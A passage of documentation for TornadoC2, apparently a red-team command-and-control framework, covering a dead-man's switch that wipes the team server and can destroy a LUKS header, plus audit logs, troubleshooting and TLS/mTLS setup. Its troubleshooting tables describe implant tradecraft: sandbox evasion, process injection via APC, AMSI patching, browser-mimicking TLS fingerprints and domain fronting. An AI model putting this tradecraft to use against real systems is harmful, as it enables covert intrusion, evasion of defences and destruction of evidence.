- `halt reboot` — set halt mode to `reboot` for this run and proceed.
- `halt none` — set halt mode to empty (wipe and exit only) and
  proceed.
- `--force` / `-f` — skip the confirmation prompt. Useful at the end of
  a scripted engagement.

The confirmation prompt shows the current halt mode before the operator
commits.

### Remote control (guardian role)

The switch can be controlled from a remote operator client. The
`guardian` role exists precisely for this: a specialist role scoped to
the dead-man's switch, holding no beacon capabilities and no
operator-management capabilities.

The role carries exactly three capabilities:

| Capability | What it enables |
|---|---|
| `deadman.view` | Read the switch state |
| `deadman.arm` | Arm, arm-until, reset, disable, warn, set halt mode, set shred mode |
| `deadman.halt` | Invoke the shutdown sequence remotely |

A guardian can create nothing, read no beacons, run no tasks, reset no
operator's password except their own, and export no config except their
own. From the operator client, a guardian sees only:

- `deadman status`, `arm`, `arm-until`, `reset`, `disable`, `warn`,
  `halt`, `shred`
- `halt` (the top-level command)
- `operators passwd` and `operators export` for themselves
- `help`, `info`, `caps`, `exit`

**Trust model.** Admins are the root of trust. They hold the full
operator-management capability set — create any account, remove any
account, change any role, reset any password, export any config. This
includes guardians: an admin appoints the switch-holder, replaces one
when the person changes, and removes one when the engagement ends.

The one capability admins do not hold is `deadman.arm` and
`deadman.halt`. Those belong to the guardian role and no other. The
framework enforces this at the capability check: a request to
`/deadman/arm` or `/deadman/halt` from an admin credential is refused
with a 403, and the refusal is audited.

The separation is between **operating** the engagement and
**terminating** it. An admin manages everyone and everything that keeps
the engagement running; the guardian alone decides when it ends. The
team chooses the guardian; the admin makes the appointment; the audit
chain records the appointment under the admin's name and the halt under
the guardian's name.

Any admin can create a guardian remotely:

```
adc > operators add watchman guardian
  Password is optional. Leave blank for cert-only authentication.
  Password (blank = none):
✓ added watchman as guardian (password required)
  Hand the password to watchman out of band — not in the config
  file, not over the C2 channel.
  Use `operators export watchman` to mint their config file.

adc > operators export watchman
✓ exported config for watchman (…)
  path: /home/you/watchman.cfg
```

The guardian can then control the switch from their own client:

```
$ python3 beacon-client.py -c watchman.cfg
operator password for watchman:

adc > deadman status
  dead-man's switch  armed

  deadline      2026-10-08 20:11:39
  window        4.00h
  ...

adc > deadman arm 24h
✓ armed for 24.00h

adc > deadman shred crypto
  crypto mode is destructive to the whole volume.
  If the tree sits on a LUKS volume that holds other data,
  running the switch will destroy that data too. The whole
  volume becomes unrecoverable the moment the LUKS header is
  erased.
  Enable crypto mode? [y/N] y
✓ shred mode: crypto

adc > deadman halt shutdown
✓ halt mode: shutdown

adc > halt
  this will, on the team server:
    - stop every listener
    - wipe the TornadoC2 tree
    - power off the machine

  proceed? [y/N] y
✓ halt acknowledged (mode=shutdown)
  the team server will stop its listeners within ~2 seconds.
```

**Remote `crypto` mode requires `confirm: true`.** The client prompts
before sending the request; the server refuses any `shred-mode`
request for `crypto` that does not carry `{"mode": "crypto",
"confirm": true}`. Both halves are required — the client prompt keeps
the operator from setting it accidentally, and the server check keeps
a hand-crafted request from bypassing the prompt. A refusal is
audited with `outcome=denied` under `deadman.shred`.

**Remote halt has a two-second defer.** The HTTP response is sent first,
then the sequence begins. Without the defer, the client would see a
connection error rather than an acknowledgement, and an operator would
not know whether the command was received. The two-second window is
short enough that the difference is invisible to the operator and long
enough for a response over a normal network.

**Durable record.** The audit log is one of the things the wipe removes.
Before the wipe runs, the server prints a single line to stdout naming
the caller:

```
[DEADMAN] REMOTE HALT by watchman@10.0.0.5 (role=guardian, mode=shutdown) — wiping state and exiting
```

If the handler is under systemd with `StandardOutput=journal`, or
running in a container with a log driver, this line survives the wipe
and is the record of who triggered the halt. Without that, the halt
leaves no trace beyond the shutdown itself.

In `crypto` mode the same warning is printed one line earlier:

```
[DEADMAN] crypto: destroying LUKS header on /dev/sda3 — every byte
          on this volume becomes unrecoverable, including any data
          outside the TornadoC2 tree
```

### Configuration file

`team_ca/deadman.json` is written by the switch whenever a value
changes. It is read on startup.

```json
{
  "deadline":            1760133099.0,
  "window_seconds":      14400,
  "armed_at":            1760118699.0,
  "check_seconds":       60,
  "warn_fractions":      [0.8, 0.95],
  "halt":                "shutdown",
  "shred_mode":          "dod",
  "shred_random_passes": 3,
  "shred_prealloc":      false,
  "shred_direct":        false,
  "shred_trim":          false,
  "shred_syncfs":        false
}
```

- `deadline` — absolute Unix timestamp; `0` disables the switch.
- `window_seconds` — length of the current arm. Cosmetic, used for the
  progress bar and elapsed-time display.
- `armed_at` — when the current window started. Cosmetic.
- `check_seconds` — tick interval. Default 60 s.
- `warn_fractions` — warning thresholds as fractions of the window.
  Empty list disables warnings while keeping the switch armed.
- `halt` — `shutdown`, `reboot`, or empty.
- `shred_mode` — one of the eleven modes in
  [Deletion modes](#deletion-modes).
- `shred_random_passes` — pass count for the `random` mode.
- `shred_prealloc`, `shred_direct`, `shred_trim`, `shred_syncfs` —
  the four infrastructure flags. Each is a boolean; the structural
  modes set them for the duration of each file without touching the
  persisted value.

A config written by an older version — with `window_seconds` but no
`deadline` — loads as disabled. The safe default is off. A config
written before the modern-media flags were added loads with all four
set to `false`, which reproduces the pre-upgrade behaviour exactly.

### Environment variables

Env vars override the persisted config **for one run only**. Useful for
tests and one-shot invocations.

| Variable | Default | Effect |
|----------|---------|--------|
| `TORNADO_DEADMAN_HOURS` | `0` | Window in hours, counted from process start. `0` disables |
| `TORNADO_DEADMAN_CHECK` | `60` | Tick interval in seconds |
| `TORNADO_DEADMAN_WARN` | `0.8,0.95` | Warning thresholds as fractions |
| `TORNADO_DEADMAN_HALT` | *(empty)* | `shutdown`, `reboot`, or empty |
| `TORNADO_DEADMAN_SHRED` | `dod` | Any of the eleven modes in [Deletion modes](#deletion-modes) |
| `TORNADO_DEADMAN_SHRED_PASSES` | `3` | Pass count when shred mode is `random` |

Env overrides are not written back to the config file. The next run
without them reads the persisted values. In particular, setting
`TORNADO_DEADMAN_SHRED=crypto` in a systemd unit and then running
`deadman status` will show `crypto` for the life of that process, but
`team_ca/deadman.json` still carries the previous mode — the next
restart without the env var reverts.

### Granting power-off permission

The `systemctl poweroff` and `systemctl reboot` calls run as the handler
user and do not go through `sudo`. On a systemd host, grant polkit
permission with a rules file:

```bash
# /etc/polkit-1/rules.d/49-tornado-power.rules
polkit.addRule(function(action, subject) {
    if ((action.id == "org.freedesktop.login1.power-off" ||
         action.id == "org.freedesktop.login1.reboot") &&
        subject.user == "youruser") {
        return polkit.Result.YES;
    }
});
```

Then `systemctl poweroff` succeeds without a password prompt. If the
call fails, the switch prints the failure and exits normally — you just
have to power the box off yourself.

Running the handler as root works but is a broad privilege grant for a
narrow action. The polkit rule above grants exactly the two operations
the switch needs, to exactly one user.

### Operational notes

**Do not arm the switch on a development machine.** The scope is the
whole repository tree. Arming the switch during development, when the
tree contains uncommitted work and possibly a local branch you have not
pushed, is the most common way to lose work to this feature. The
default is off for a reason — arm it only on a dedicated team server,
at the start of an engagement, for the authorised window.

**`crypto` mode is destructive to data outside the tree.** The LUKS
erase destroys the header of the *volume*, not the *directory*. Any
other file that happens to live on the same encrypted volume becomes
unrecoverable at the same time. Before enabling the mode, confirm that
`logs/` and `team_ca/` sit on a volume that holds nothing else the
engagement needs. The local console prompts on first enable; the remote
API requires `confirm: true` on every request.

**Beacon check-ins do not reset the switch.** An idle beacon checking
in every 60 seconds is exactly the situation where you want the switch
to fire: the engagement is live but nobody is watching.

**Operator activity does not reset the switch either.** The deadline is
the deadline. An operator who wants a longer window runs `deadman arm`
or `deadman reset`, and that action is audited. The switch's purpose is
to bound the operation by wall-clock time, not by whether someone
happened to type something recently.

**The wipe cannot be undone.** There is no recovery path. If the
handler runs from a directory that is also your working copy, the
working copy is gone. The safety rails catch the obvious catastrophes —
`/`, `$HOME`, an ancestor of CWD — but a legitimate `TornadoC2`
directory is a legitimate target, and the switch will remove it.

**`scrub` and `trim` are the only modes that do anything on an SSD.**
The pattern modes write to relocated blocks and leave the originals in
the controller's free pool until garbage collection decides otherwise.
On a laptop-class SSD with wear-levelling, the practical window between
"the switch fired" and "an attacker with raw NAND access can recover
the bytes" is measured in hours to weeks. If the threat model includes
a physical seizure of the drive, no software wipe is sufficient.

**Fail-safe on config parse.** A malformed `deadman.json` is ignored
and the switch stays disabled. This is deliberate: a syntax error
should not silently enable a destructive feature, and it should not
crash the handler on startup either. The default for any ambiguity is
off.

**Fail-safe on cleanup errors.** If `_cleanup_state` raises for any
reason — permission, filesystem, a symlink loop — the exception is
caught, the failure is printed, and the process still exits. The
shutdown sequence is designed to reach `os._exit(1)` even when the wipe
fails.

---

## Session Logging

Every beacon gets its own log directory under `logs/`:

```text
logs/b1001_alice@WIN-DEV_192.168.1.10_beacon/
  session.log           Check-ins, command dispatches, signature events
  plugins/              Reserved for future use
```

### Audit log

```text
logs/audit/
  combined.log          authoritative JSON-lines, hash-chained
  combined.txt          human-readable mirror
  checkpoint.json       HMAC anchor for the chain tail
  <operator>.log        per-operator JSON view
  <operator>.txt        per-operator human view
```

`combined.log` is the record that matters: every entry contains the
SHA-256 of the previous entry, and the chain is anchored by an HMAC
over the last entry. Verification happens at startup and via
`audit verify` in the console.

**Log writing is error-safe:** if a write fails, the failure is
swallowed and the session continues.

---

## Troubleshooting

### The client cannot connect

| Symptom | Cause | Fix |
|---------|-------|-----|
| `TLSV1_ALERT_UNKNOWN_CA` | The config's CA does not match the CA the running listener loaded at startup. `team_ca/` was regenerated while the handler was running | Restart the handler from the same directory, then `operators export <name>` and overwrite the config |
| `certificate verify failed` | The `server_cert_sha256` pin does not match the peer certificate | Re-export the config on the server |
| HTTP 503 | Multiplayer is off | Run `multiplayer on` on the local console |
| `[password_invalid]` | Wrong password, or the client and server clocks are more than 5 minutes apart | Retry; if correct, check NTP on both sides |
| `[session_expired]` | The session exceeded the 12-hour TTL | Restart the client — the server has already dropped the record |
| `[unknown_operator]` | The certificate is valid but the operator was removed | `operators add <name> <role>` from the local console |
| `[revoked]` | The operator was explicitly revoked | `operators add` to restore |
| `Connection refused` on the operator port | The operator listener is not reachable | Confirm `--operator-port` is set, no firewall is blocking, and the process is running |

### The beacon never checks in

- Confirm the callback URL is reachable from the target's network.
- If `antivm` or `antisanbox` was enabled, the beacon exits silently
  under virtualisation. Rebuild without them for a VM test.
- Verify the kill date has not passed.
- Verify the working-hours window permits the current time on the
  target's local clock.
- `curl -k <callback-url>` from the target's network — if the
  redirector or listener is unreachable, nothing else matters.
- **WebSocket specifically.** The `--url` port must match the
  handler's `--ws-port`, not its `--beacon-port`. A build whose URL
  carries the beacon port reaches the HTTP listener, which does not
  speak WebSocket, and the upgrade fails silently.
- **WireGuard specifically.** The agent's keypair must be pinned on
  the server after deployment with `wireguard add-peer <agent-pubkey>
  <tunnel-ip>` before any traffic is accepted. Until the pin is in
  place, WireGuard silently drops every packet the agent sends, and
  the beacon's stderr shows only handshake attempts — no server-side
  log line appears.
- **WireGuard server tunnel IP mismatch.** The build's
  `wireguard_server_tunnel_ip` must match the handler's
  `--wireguard-server-ip`. A handler started with a non-default
  value and an agent built with the default dials an address that
  does not exist on the tunnel. The symptom is identical to an
  unpinned peer — silence on both sides, no server-side log. Rebuild
  the agent with `--wireguard-server-tunnel-ip <handler-value>`, or
  restart the handler with `--wireguard-server-ip 10.99.0.1`.

### A build fails

| Error | Cause | Fix |
|-------|-------|-----|
| `path … resolves outside the allowed build directories` | A config referenced a file outside `mtls_certs/`, `tls_certs/`, or `profiles/c2/` | Move the file or omit the field |
| `pivot_key_path is empty` on an SMB/TCP build | Every pivot build needs the engagement keypair | `beacon-build --pivot-key-gen`, then set `pivot_key_path` |
| `transport_mode 'smb' requires target_os=windows` | SMB is Windows-only | Set `target_os: "windows"` or pick a different transport |
| `donut not found` on an `inject: true` Windows build | Donut is missing | Install Donut on `PATH` or drop a vendored copy at `beacon/bin/donut` |
| `inject_method 'apc' requires inject=True` | A JSON config set `inject_method: "apc"` but left `inject` at `false` | Set `"inject": true`, or leave `inject_method` at `"default"` |
| `inject_method 'apc' is Windows-only` | A JSON config set `inject_method: "apc"` on a Linux or macOS target | Set `"inject_method": "default"` for non-Windows builds, or `"target_os": "windows"` |
| `inject_method 'fiber' is a self-execution technique` | A JSON config set `inject_method` to `fiber` or `threadpool` | These techniques do not fit `migrate <pid>`; leave `inject_method` at `"default"` until `execmem` grows a `--method` flag |
| `tcp reverse: dial …` on the child, and no pin log on the parent | The child cannot reach the parent's TCP listener | Confirm the parent printed `tcp reverse pivot: listening on …` at startup, that the address in `--tcp-rev-target` matches, and that no firewall is blocking the port between the child and the parent |
| `tcp reverse pivot: auth failed from …` on the parent | The child's `tcp_rev_token` does not match the parent's | Rebuild the child with the token the parent printed at build time (`--tcp-rev-token-gen` on the parent side) |
| `pattern Bootstrap.dll: no matching files found` | The Windows agent's `dotnet_loader_windows.go` embeds a bootstrap that was not compiled | Build `Bootstrap.dll` with `mcs` (Linux) or `csc` (Windows) and place it next to `Bootstrap.cs`, or check the prebuilt DLL into the tree. `install-go-build.sh` compiles it automatically when it is missing |
| `dn: ExecuteInDefaultAppDomain hr=0x80070020` | `ExecuteInDefaultAppDomain` could not open the bootstrap — usually a share-mode mismatch on the delete-on-close temp file | Confirm the bootstrap was written with `FILE_SHARE_READ\|WRITE\|DELETE`; the delivered loader already does |
| `dn: ExecuteInDefaultAppDomain hr=0x80131515` or `0x8007000E` on a hardened host | AMSI blocked the assembly load — the `opsec` profile's AMSI patch is not in place | Confirm the AMSI patch runs during agent init on Windows, not lazily; rebuild with `--profile opsec` if the deployment did not already |
| `bof: symbol "": unresolved symbol ""` | COFF symbol-name parser reads the wrong half of the 8-byte name field | Use the current `bof_loader_windows.go`, which discriminates on the low 4 bytes (long names have a zero low half; short names do not) |
| `unexpected fault address` immediately after a BOF returns | The scrub after execution writes into pages the section-finalize pass set to `PAGE_EXECUTE_READ` or `PAGE_READONLY` | Restore the blob to `PAGE_READ_WRITE` with `VirtualProtect` before the scrub, then free |

### An injection fails

| Error | Cause | Fix |
|-------|-------|-----|
| `OpenProcess(…): Access is denied` on the target | The beacon lacks `SeDebugPrivilege` for that PID, or the target is a protected process | Run the beacon as SYSTEM or an elevated user. Windows PPL processes and kernel threads are refused by the kernel regardless |
| `NtQueueApcThread(thread=…): NTSTATUS 0xc0000022` | The thread handle did not carry `THREAD_SET_CONTEXT`; uncommon, but a hardened host may refuse the open | Fall back to `--method default`, which uses a different access path |
| `APC: no threads in pid … accepted the APC` | Every thread in the target refused the queue, or the target exited between the snapshot and the queues | Retry. If it recurs, the target is likely protected; use `--method default` |
| `migrate: method "fiber" is a self-execution technique` | The operator typed `--method fiber` at the console | The verb only accepts `default` and `apc`; use `execmem` for self-execution |
| The beacon re-checks in but the parent never disappears | The injected APC has not fired yet — the target's threads have not entered an alertable wait | Wait; the shellcode runs the next time any thread in the target enters an alertable wait. On a target that never does, the APC sits queued |

### The GUI fails to start

| Error | Cause | Fix |
|-------|-------|-----|
| `ModuleNotFoundError: No module named 'PySide6'` | PySide6 is not installed in the interpreter running the client | `pip install PySide6`. On Debian 12+ or Homebrew Python, either add `--break-system-packages` or install into a venv with `./install-deps-client.sh --venv ~/.tornadoc2-venv` |
| `qt.qpa.plugin: Could not load the Qt platform plugin "xcb"` (or `"wayland"`) | The system Qt runtime libraries are missing | Debian: `apt install libgl1 libegl1 libxkbcommon-x11-0 libxcb-cursor0 libxcb-icccm4 libxcb-image0 libxcb-keysyms1 libxcb-randr0 libxcb-render-util0 libxcb-shape0 libxcb-xinerama0 libwayland-client0 libwayland-cursor0 libwayland-egl1 qt6-wayland`. The same set is installed by `install-deps-client.sh` |
| `qt.qpa.xcb: could not connect to display` (or `qt.qpa.wayland:`) | PySide6 loaded but there is no display socket | Use `ssh -X`, a VNC session, or run the GUI on a machine with a display. For a smoke test only, `QT_QPA_PLATFORM=offscreen` permits import without a display |
| `could not set up the TLS transport` printed before the GUI | Config PEM material is malformed | Re-export the config on the server |

### The audit chain refuses to start

The handler verifies the hash chain at startup. A tampered entry
breaks the chain and the handler refuses to boot. Move
`logs/audit/` aside to start clean — this loses the audit history
and should only be done when the previous run is known to be
corrupt.

---

## TLS & mTLS Configuration

The beacon listener runs on a dedicated port and terminates TLS itself.
Everything under `tls_certs/` and `mtls_certs/` is auto-generated on
first run and never overwritten once the full bundle is present.

| Listener | Port | Client auth | Certificates |
|----------|------|-------------|--------------|
| HTTPS | `8881` | server-only; target skips verify | `tls_certs/server.pem`, `tls_certs/server.key` |
| HTTPS + mTLS | `8881` | mutual (client cert required) | `mtls_certs/` bundle |

### TLS context hardening

- TLS 1.2 floor, TLS 1.3 ceiling.
- Session tickets enabled.
- `OP_NO_COMPRESSION` and `OP_NO_RENEGOTIATION`.
- Curated cipher list.
- ALPN advertises only `http/1.1`.

### ClientHello fingerprint (uTLS)

The beacon's TLS handshake is not the Go standard library's unless the
build asked for it. The `--tls-profile` flag selects one of four
ClientHello profiles:

| Profile | Source |
|---------|--------|
| `go` | `crypto/tls` (default, no uTLS) |
| `chrome` | `utls.HelloChrome_120` |
| `firefox` | `utls.HelloFirefox_120` |
| `safari` | `utls.HelloSafari_16_0` |

The presets are version-pinned on purpose: a `go mod tidy` that pulls
a newer uTLS cannot silently change what the agent looks like on the
wire. A future uTLS release that adds a newer Chrome preset is a
deliberate code change, not an accidental one.

The profile applies to the HTTP transport and to DoH. It does not
apply to DNS, ICMP, or the pivot session — those transports carry
their own framing.

When the profile is a browser, the agent uses uTLS for the
ClientHello and the standard library for everything else. Fields of
`tls.Config` that uTLS does not support (a custom `VerifyPeerCertificate`
callback, a custom `KeyLogWriter`, explicit `CurvePreferences`) are
logged as a single build-time warning and not applied. This is a
deliberate failure mode: silently dropping a verification hook would
be worse than a loud warning.

### mTLS

On first run, a full PKI is bootstrapped under `mtls_certs/`:

- `ca.pem` / `ca.key` — self-signed CA (RSA-4096, CN=`TornadoC2-mTLS-CA`)
- `server-mtls.pem` / `server-mtls.key` — server certificate
- `client.pem` / `client.key` — client certificate
- `ca.srl` — OpenSSL serial counter

**The build-time and runtime bundles must match.** There is no
negotiation and no fallback.

### Operator mTLS

The team server's operator listener uses a separate PKI under
`team_ca/`:

- `ca.pem` / `ca.key` — team CA
- `server.pem` / `server.key` — the operator listener's server cert
- `operators/<name>/client.crt` / `operators/<name>/client.key` —
  per-operator client certificates

The client verifies the server's certificate against the pinned CA
embedded in the operator's config. Hostname verification is disabled —
the CA pin is the trust anchor, not the subject. This is deliberate;
the CA is per-deployment and never shared with a public trust store.

In addition to the CA pin, the client checks the **SHA-256 fingerprint
of the server certificate** against the value exported in the config
as `server_cert_sha256`. The check runs inside the TLS handshake, after
the peer certificate is presented but before any HTTP request is sent.
See [Server Hardening › Server certificate pinning](#server-certificate-pinning)
for the full reasoning. Rotating `team_ca/server.pem` requires re-exporting
every operator's config.

### Domain fronting / redirector

The HTTPS callback URL is built at delivery time. A redirector (nginx,
Cloudflare Worker, Fastly VCL) can forward `/c2/<token>` to the real
listener.

### Flags

| Flag | Default | Description |
|------|---------|-------------|
| `-H` / `--host` | `0.0.0.0` | Beacon listener bind address |
| `--beacon-port` | `8881` | Beacon listener port (TCP) |
| `--beacon-quic-port` | *(none)* | QUIC / HTTP/3 listener port (UDP). Requires `aioquic`. Pass `0` to disable explicitly |
| `--ws-port` | *(none)* | WebSocket (wss://) listener port (TCP). Requires `simple-websocket`. Uses the same certificate material as the HTTP listener |
| `--ws-host` | *(none)* | WebSocket listener bind address. Defaults to `--host` |
| `--wireguard` | off | Enable the WireGuard listener. Requires `pyroute2` and `CAP_NET_ADMIN` |
| `--wireguard-port` | `51820` | WireGuard listener UDP port |
| `--wireguard-subnet` | `10.99.0.0/24` | WireGuard tunnel subnet |
| `--wireguard-server-ip` | `10.99.0.1` | Server IP inside the tunnel |
| `--dns-port` | *(none)* | DNS transport port |
| `--dns-domain` | *(none)* | Authoritative zone for DNS |
| `--beacon-mtls-ca` | *(none)* | CA file for client certificate verification |
| `--beacon-mtls-dir` | *(none)* | Directory with the mTLS bundle |
| `--beacon-mtls-server-cert` | `mtls_certs/server-mtls.pem` | Server certificate |
| `--beacon-mtls-server-key` | `mtls_certs/server-mtls.key` | Server private key |
| `--beacon-profile <name>` | *(none)* | Narrow the listener to one C2 profile |
| `--operator-port` | *(none)* | Team server operator listener port |
| `--operator-host` | *(none)* | Operator listener bind address. When `--operator-port` is set and this flag is omitted, the listener binds to `0.0.0.0`. Pass `127.0.0.1` for loopback-only |
| `--no-audit-verify` | off | Skip audit chain verification |
| `-c` / `--cert` | `tls_certs/server.pem` | Plain TLS certificate |
| `-k` / `--key` | `tls_certs/server.key` | Plain TLS private key |
| `--mtls-ca-cert` | `mtls_certs/ca.pem` | Default CA for embedding |
| `--mtls-ca-key` | `mtls_certs/ca.key` | CA private key |
| `--mtls-server-cert` | `mtls_certs/server-mtls.pem` | Default server cert |
| `--mtls-server-key` | `mtls_certs/server-mtls.key` | Default server key |
| `--mtls-client-cert` | `mtls_certs/client.pem` | Default client cert |
| `--mtls-client-key` | `mtls_certs/client.key` | Default client key |

---

## License

This project is licensed under the
[GNU General Public License v3.0](LICENSE).
